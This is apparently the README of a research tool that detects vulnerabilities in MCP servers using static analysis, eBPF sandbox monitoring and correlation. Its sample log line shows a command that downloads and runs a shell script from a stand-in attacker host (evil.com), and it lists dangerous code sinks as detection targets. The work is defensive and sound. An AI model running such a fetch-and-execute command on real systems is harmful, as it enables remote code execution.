


# MCP Security Auditor

**Hybrid Static + Dynamic Security Analysis for Model Context Protocol (MCP) Servers**

[](https://github.com/nyit-vancouver/mcp-sec-audit)
[](LICENSE)
[](https://python.org)
[](https://docker.com)
[](detection/README.md)

## Abstract

MCP Security Auditor is a research artifact for detecting security vulnerabilities in Model Context Protocol (MCP) servers. As LLM agents increasingly rely on MCP to interact with external tools and data, they inherit significant security vulnerabilities — from Remote Code Execution (RCE) to Indirect Prompt Injection and supply-chain attacks.

The framework uses a **three-phase hybrid analysis pipeline**:

1. **Static Analysis** — Multi-language AST extraction (Python `ast` + JS/TS tree-sitter), call graph construction, reverse BFS from sinks, and lightweight taint analysis
2. **Dynamic Analysis** — Docker sandbox execution instrumented with eBPF tracepoints, filtered via Linux cgroup v2 boundary, outputting CEF (Common Event Format) logs
3. **Correlation** — Merges static findings with runtime events, upgrading confidence from `potential` → `confirmed` and escalating severity for multi-behavior combinations

---

## System Architecture



### eBPF Monitoring Pipeline



---

## How It Works

### Phase 1: Static Analysis (`pipelines/static.py`)

The static pipeline runs two parallel tracks:

**Track A — Legacy Detectors** run via `DetectorRegistry` (plugin system with TOML rule matching). These produce `CapabilityFinding` objects directly.

**Track B — AST Analysis Engine** (shadow mode):

1. **Fact Extraction** — Source files are dispatched to language-specific extractors:
   - `.py` files → `extractors/python_ast.py` (Python `ast` module)
   - `.js/.ts/.mjs/.mts/.tsx` files → `extractors/javascript_ts_tree_sitter.py` (tree-sitter)
   - Outputs: `EntryPointFact`, `SinkFact`, `ImportFact`, `FunctionFact`, `CallFact`

2. **Call Graph Construction** (`passes/call_graph.py`) — Builds a directed graph of function calls from `CallFact` records, with caller/callee resolution via import aliases.

3. **Reachability Analysis** (two paths):
   - **Path A (MCP Forward):** If MCP entrypoints exist, runs forward reachability from entrypoints to sinks
   - **Path B (Generic Reverse):** `passes/reverse_sink_trace.py` performs backward BFS from every `SinkFact` through the call graph to find the root triggering function — works without MCP entrypoints, catching poisoned dependencies

4. **Taint-lite Dataflow** (`passes/taint_lite.py`) — Lightweight intra-procedural dataflow analysis tracking taint from parameters through assignments to sink arguments.

5. **Finding Builder** (`passes/finding_builder.py`) — Converts reachable sink chains into `FindingFact` records with `status=POTENTIAL`.

### Phase 2: Dynamic Analysis (`pipelines/dynamic.py`)

Static results guide dynamic execution via a `TriggerPlan`:

```python
@dataclass
class TriggerPlan:
    execution_mode: str = "mcp_fuzz"   # "mcp_fuzz" or "direct_exec"
    target_tools: list[str]            # MCP tool names with findings
    risk_categories: list[str]         # ["rce", "file", "network"]
    sink_types: list[str]              # ["eval", "execSync", "fetch"]
    priority: str = "medium"           # based on finding severity
```

**Execution Mode Auto-Detection** (`_detect_execution_mode()`):
- Scans `package.json` for MCP SDK patterns (`@modelcontextprotocol/sdk`, `transport`)
- Falls back to scanning Python files for `mcp`/`fastmcp` patterns
- Returns `"mcp_fuzz"` (MCP protocol fuzzing) or `"direct_exec"` (direct script execution)

**Sandbox Lifecycle:**

1. **Container Launch** — Docker container started with `--privileged` (eBPF access), `--pid=host` (PID namespace for `/proc`), target code mounted at `/target`, monitor scripts at `/monitor`

2. **Entrypoint** (`sandbox/monitors/entrypoint.sh`):
   - Creates cgroup v2 `/sys/fs/cgroup/mcp-target`
   - Computes cgroup inode ID via `stat -c "%i"`
   - Runs optional `/target/setup.sh` (pre-monitor setup hook)
   - Starts eBPF monitor with `MCP_TARGET_CGROUP_ID` environment variable
   - Executes target in target cgroup (`echo $$ > cgroup.procs`)

3. **eBPF Monitoring** (`sandbox/monitors/ebpf_monitor.py`):
   - Loads BPF programs from `bpf_programs.c`
   - Sets target cgroup ID in `BPF_ARRAY(target_cgroup_id, u64, 1)`
   - Captures events via perf buffer
   - Outputs CEF (Common Event Format) logs

4. **CEF Parsing** (`extractors/dynamic.py`) — Parses CEF logs into `RuntimeEventFact` records

### Phase 3: Correlation (`passes/dynamic_correlation.py`)

Merges static findings with runtime events through multi-level matching:

| Match Level | Criteria | Effect |
|-------------|----------|--------|
| **Exact** | ustack attribution (sink filename in runtime stack) OR `target_path` overlap with sink arguments | `POTENTIAL → CONFIRMED`, confidence HIGH |
| **Category** | Only category matches (e.g., static `rce` sink + runtime `PROC_EXEC` event) | `POTENTIAL → CONFIRMED`, confidence MEDIUM |
| **Unmatched event** | Runtime event with no corresponding static finding | New `RUNTIME_ONLY` finding created |

**Severity Escalation:** Findings correlated with ≥2 different event categories (e.g., `PROC_EXEC` + `NETWORK_CONNECT`) are automatically escalated one severity level.

---

## eBPF Monitoring

### Syscall Tracepoints

The BPF program (`bpf_programs.c`, ~368 lines) attaches 7 kernel tracepoints:

| Tracepoint | Event Type | Data Captured |
|:-----------|:-----------|:--------------|
| `syscalls:sys_enter_openat` | `FILE_OPEN` | path, flags, fd, stack_id |
| `syscalls:sys_enter_read` | `FILE_READ` | fd, size, resolved path |
| `syscalls:sys_enter_write` | `FILE_WRITE` | fd, size, resolved path |
| `syscalls:sys_enter_unlinkat` | `FILE_UNLINK` | path, stack_id |
| `syscalls:sys_enter_connect` | `NET_CONNECT` | IP (v4/v6/unix), port, family, stack_id |
| `syscalls:sys_enter_execve` | `PROC_EXEC` | path, comm, `/proc/<pid>/cmdline`, stack_id |
| `sched:sched_process_fork` | `PROC_FORK` | comm, child_pid |

### BPF Maps

| Map | Type | Purpose |
|:----|:-----|:--------|
| `target_cgroup_id` | `BPF_ARRAY(u64, 1)` | Single-entry map holding target cgroup inode ID |
| `event_heap` | `BPF_PERCPU_ARRAY(event_data, 1)` | Per-CPU event allocation (avoids BPF 512-byte stack limit) |
| `stack_traces` | `BPF_STACK_TRACE(1024)` | User-space call stack capture |
| `active_opens` | `BPF_HASH(tid → open_args)` | Tracks in-flight `openat` calls |
| `fd_info` | `BPF_HASH(pid<<32|fd → path)` | Maps file descriptors to resolved paths |

### CEF Output Format

```
CEF:0|MCP-Security|Dynamic-Detector|1.0|PROC_EXEC|Suspicious Command Execution|8|
  rt=2025-05-01T12:00:00.000 suser=root sproc=bash spid=1234 outcome=success
  dproc=/usr/bin/bash command_args=bash -c curl evil.com/shell.sh | bash
  ustack=0x7f3a2b1c3d5e|0x7f3a2b1c4a20 target_path=/target/index.js
```

Standard CEF extensions: `dproc`, `fname`, `fsize`, `dst`, `dpt`, `command_args`, `ustack`, `target_path`.

### cgroup v2 Boundary Filtering

```
┌─────────────────────────────────────────────────────┐
│              Docker Container (--privileged)        │
│                                                     │
│  ┌───────────────────────────────────────────────┐  │
│  │   cgroup: /sys/fs/cgroup/mcp-target           │  │
│  │   inode_id = stat -c "%i" (computed once)     │  │
│  │                                               │  │
│  │   ┌────────────┐    ┌──────────────────────┐  │  │
│  │   │  target    │───▶│  child processes     │  │  │
│  │   │  process   │    │ (auto-inherit cgroup)│  │  │
│  │   └────────────┘    └──────────────────────┘  │  │
│  │          │                                    │  │
│  │          ▼ eBPF events                        │  │
│  │   ┌────────────────────────────────────────┐  │  │
│  │   │ is_target():                           │  │  │
│  │   │   bpf_get_current_cgroup_id()          │  │  │
│  │   │   == target_cgroup_id[0]               │  │  │
│  │   │   → capture syscall events             │  │  │
│  │   └────────────────────────────────────────┘  │  │
│  └───────────────────────────────────────────────┘  │
│                                                     │
│      Non-target processes (runc, tar, npm install)  │
│      → is_target() returns false → filtered out     │
└─────────────────────────────────────────────────────┘
```

**Why cgroup instead of PID whitelist:**

| Problem | PID Whitelist | cgroup v2 |
|:--------|:-------------|:----------|
| Fork race condition | Must register child PIDs in userspace — race between fork and registration | Child processes auto-inherit parent's cgroup (kernel guarantee) |
| PID namespace | PIDs differ between host/container namespaces | cgroup inode IDs are namespace-independent |
| Timing sensitivity | PIDs recycled after process exit | cgroup membership is deterministic, no timing window |
| Noise reduction | 38,742 events (PID whitelist) | 61 events (cgroup boundary) |

The `is_target()` check is a single BPF helper call (`bpf_get_current_cgroup_id()`) compared against a map value — deterministic, no timing-sensitive operations.

---

## Multi-Language Support

| Language | Extractor | Entry Points | Sinks |
|:---------|:----------|:-------------|:------|
| **Python** | `python_ast.py` (`ast` module) | `@mcp.tool`, `@mcp.resource`, `@mcp.prompt`, `FastMCP` decorators | `eval()`, `exec()`, `subprocess.*`, `open()`, `requests.*`, `socket.*`, `os.system()` |
| **JS/TS** | `javascript_ts_tree_sitter.py` (tree-sitter) | MCP SDK patterns (`@modelcontextprotocol/sdk`), `server.tool()` | `eval()`, `child_process.*`, `fetch()`, `http.*`, `fs.*`, `require()` |

### Reverse Sink Trace

Unlike traditional taint analysis (forward from sources), the engine performs **backward BFS from sinks**:

1. Identify all sink calls (`SinkFact` records matched by TOML rules)
2. For each sink, locate the `CallFact` via `sink.call_id`
3. BFS upward through the call graph: find who calls the sink's containing function, then who calls *that* function, etc.
4. Stop at root function (module-level code or function with no callers) or max depth (10 hops)
5. Build a forward call chain from root → sink for evidence

This approach detects dangerous code paths even when MCP entrypoints are absent (e.g., poisoned npm dependencies, utility libraries with RCE vectors).

---

## Fact Schema

The analysis engine uses typed dataclass facts throughout the pipeline:

| Fact Type | Purpose | Key Fields |
|:----------|:--------|:-----------|
| `EntryPointFact` | MCP-exposed entry point | `kind` (tool/resource/prompt), `name`, `function_id` |
| `SinkFact` | Dangerous function call | `sink_name`, `category` (rce/file/network), `severity_base`, `rule_id` |
| `ImportFact` | Module import relationship | `module`, `alias`, `kind` (import/require/esm_import) |
| `FunctionFact` | Callable unit (function/method) | `name`, `qualified_name`, `params`, `decorators` |
| `CallFact` | Function invocation | `caller`, `callee`, `args`, `kwargs`, `snippet` |
| `RuntimeEventFact` | eBPF-captured runtime event | `pid`, `kind` (process_exec/file_access/network_connect), `command`, `command_args`, `ustack`, `target_path` |
| `FindingFact` | Final correlated finding | `severity`, `confidence`, `status` (potential/confirmed/runtime_only), `call_chain`, `dynamic_evidence` |

---

## Project Structure

```
mcp-sec-audit/
├── detection/                            # Core Analysis Engine
│   ├── detection/                        # Main package
│   │   ├── cli.py                        # CLI entry point
│   │   ├── core/
│   │   │   ├── models.py                 # CapabilityFinding, DetectionResult, EvidenceSource
│   │   │   ├── registry.py               # DetectorRegistry (plugin system)
│   │   │   └── session.py                # DetectionSession
│   │   ├── pipelines/
│   │   │   ├── static.py                 # Static pipeline: legacy + AST shadow mode
│   │   │   ├── dynamic.py                # Dynamic pipeline: Docker + eBPF + TriggerPlan
│   │   │   └── rag.py                    # RAG pipeline
│   │   ├── plugins/
│   │   │   ├── static/
│   │   │   │   ├── python/               # Legacy Python AST detectors
│   │   │   │   └── typescript/           # TS detection (placeholder)
│   │   │   ├── dynamic/                  # Dynamic behavior analyzer
│   │   │   └── rag/
│   │   ├── sandbox/
│   │   │   ├── runner.py                 # SandboxResult, SandboxProvider protocol
│   │   │   └── providers/
│   │   │       └── docker_provider.py    # Docker orchestration (--privileged, --pid=host)
│   │   ├── rules/                        # TOML detection rules (keywords.toml)
│   │   ├── mitigation/                   # MitigationEngine, policy templates
│   │   ├── knowledge/                    # Knowledge base
│   │   └── reporting/                    # Report generation
│   │
│   ├── analysis/                         # AST-based analysis engine
│   │   ├── engine.py                     # Multi-language dispatch: Python AST + JS/TS tree-sitter
│   │   ├── extractors/
│   │   │   ├── python_ast.py             # Python AST fact extractor
│   │   │   ├── javascript_ts_tree_sitter.py  # JS/TS tree-sitter fact extractor
│   │   │   └── dynamic.py               # CEF log parser (eBPF → RuntimeEventFact)
│   │   ├── facts/
│   │   │   ├── schema.py                # Fact dataclasses (EntryPointFact, SinkFact, etc.)
│   │   │   ├── store.py                 # FactStore
│   │   │   ├── ids.py                   # Fact ID generation
│   │   │   └── serialization.py         # Fact serialization
│   │   └── passes/
│   │       ├── call_graph.py            # Call graph construction
│   │       ├── reverse_sink_trace.py    # Reverse BFS from sinks to root functions
│   │       ├── taint_lite.py            # Lightweight taint analysis
│   │       ├── dynamic_correlation.py   # Static↔Dynamic correlation
│   │       └── finding_builder.py       # Build CapabilityFinding from facts
│   │
│   ├── sandbox/                          # Docker + eBPF infrastructure
│   │   ├── Dockerfile                    # Sandbox image (BCC, Python 3.13, eBPF tools)
│   │   ├── docker-compose.yml
│   │   └── monitors/
│   │       ├── bpf_programs.c            # eBPF C programs (7 syscall tracepoints)
│   │       ├── ebpf_monitor.py           # BCC Python monitor (CEF output)
│   │       ├── entrypoint.sh             # Container entry: cgroup + dual mode
│   │       └── fuzzer.py                 # MCP protocol fuzzer
│   │
│   ├── examples/
│   │   ├── benchmarks/
│   │   │   ├── mcptox/                   # 491 benchmark samples (94.7% coverage)
│   │   │   ├── recent-mcp/              # Real-world MCP vulnerabilities
│   │   │   │   └── litellm-mcp-stdio-command-exec/  # LiteLLM CVE fixture
│   │   │   └── supply-chain-attacks/    # Supply chain attack samples
│   │   ├── vulnerable-mcp-servers-lab/  # Ground truth vulnerable servers (submodule)
│   │   └── dynamic_analysis_demo.py
│   │
│   └── tests/                           # Test suite
│
├── web-detection-portal/                 # Visualization Interface
│   ├── app.py                           # Flask Application
│   ├── detection_adapter.py             # Data Bridge (JSONL Parser)
│   └── templates/                       # Dashboard UI
│
└── docker-compose.yml                   # Deployment Configuration
```

---

## Quick Start

### Prerequisites

- **Python 3.13+** (managed via `uv`)
- **Docker** & **Docker Compose** (required for dynamic analysis)
- **Linux kernel ≥ 4.4** (or Docker Desktop with Linux VM) for eBPF support
- **[uv](https://github.com/astral-sh/uv)**: Python package manager

```bash
# Install uv
curl -LsSf https://astral.sh/uv/install.sh | sh
```

### Installation

```bash
# Clone the repository
git clone https://github.com/nyit-vancouver/mcp-sec-audit.git
cd mcp-sec-audit

# Initialize git submodules (vulnerable-mcp-servers-lab)
git submodule update --init --recursive

# Setup detection engine
cd detection
uv sync
```

### Verify Installation

**Check CLI:**
```bash
uv run python -m detection.cli --help
```

**Test static analysis:**
```bash
uv run python -m detection.cli \
    examples/vulnerable-mcp-servers-lab/vulnerable-mcp-server-filesystem-workspace-actions \
    --format markdown
```

Expected output: detected capabilities (`file_read`, `file_write`, `command_exec`), risk score/level, and mitigation recommendations.

**Quick validation:**
```bash
uv run python -m detection.cli \
    examples/vulnerable-mcp-servers-lab/vulnerable-mcp-server-filesystem-workspace-actions \
    --format json | grep -q "risk_level" && echo "✅ Verified" || echo "❌ Failed"
```

### Run the Benchmark

```bash
cd detection

# Build the dynamic sandbox image
cd sandbox && docker-compose build && cd ..

# Run MCPTox benchmark (491 samples)
uv run mcptox-benchmark
```

Output: `detection/examples/benchmarks/mcptox/output/per_file_detection.jsonl`

### Launch the Visualization Portal

```bash
cd ../web-detection-portal
uv sync
uv run python app.py
```

Access at **http://localhost:3003**

---

## CLI Reference

```bash
uv run python -m detection.cli <target> [options]
```

| Option | Description | Default |
|:-------|:------------|:--------|
| `<target>` | Path to MCP server directory or file | (required) |
| `--pipeline` | Analysis mode: `static`, `dynamic`, `rag` | `static` |
| `--format` | Output format: `markdown`, `json` | `markdown` |
| `--output`, `-o` | Save to file (`.jsonl` for web portal) | stdout |
| `--policy-dir` | Mitigation policy templates directory | `detection/mitigation/policy_templates` |
| `--rules` | Detection rules file | `detection/rules/keywords.toml` |

**Examples:**

```bash
# Quick static scan
uv run python -m detection.cli path/to/server

# JSON output
uv run python -m detection.cli path/to/server --format json

# Dynamic analysis with eBPF sandbox
uv run python -m detection.cli path/to/server --pipeline dynamic -o output/result.jsonl

# Full demo: static → dynamic → correlation
uv run examples/dynamic_analysis_demo.py

# Batch scan
for server in examples/vulnerable-mcp-servers-lab/*/; do
    uv run python -m detection.cli "$server" --format json -o output/batch.jsonl
done
```

### CLI ↔ Web Portal Integration

The web portal watches `detection/output/` for `.jsonl` files:

```text
┌─────────────┐     ┌──────────────────┐     ┌─────────────────┐
│  CLI Scan   │ ──▶ │ detection/output │ ──▶ │   Web Portal    │
│  --output   │     │   (*.jsonl)      │     │  (auto-import)  │
└─────────────┘     └──────────────────┘     └─────────────────┘
                           │
                           ▼
                    Auto-delete after import
```

Configure in `web-detection-portal/config.py`:
- `WATCH_ENABLED`, `WATCH_DIRECTORY`, `WATCH_INTERVAL`, `DELETE_AFTER_IMPORT`

---

## Benchmark Results

| Benchmark | Samples | Coverage | Description |
|:----------|:--------|:---------|:------------|
| **MCPTox** | 491 | **94.7%** | Malicious MCP server detection |
| LiteLLM CVE | 1 | Detected | Real-world `litellm-mcp-stdio-command-exec` vulnerability |
| Supply Chain | — | Detected | Typosquatting and dependency confusion attacks |

---

## Documentation

- **[Detection Engine](detection/README.md)** — Analysis algorithms and rule definitions
- **[Dynamic Sandbox](detection/sandbox/README.md)** — eBPF monitoring implementation details
- **[Vulnerable Lab](detection/examples/vulnerable-mcp-servers-lab/README.md)** — Catalog of implemented vulnerabilities
- **[Web Portal](web-detection-portal/README.md)** — API usage and dashboard configuration

---

## License

This project is licensed under the MIT License — see the [LICENSE](LICENSE) file for details.

This artifact is provided for **research and defensive purposes only**.
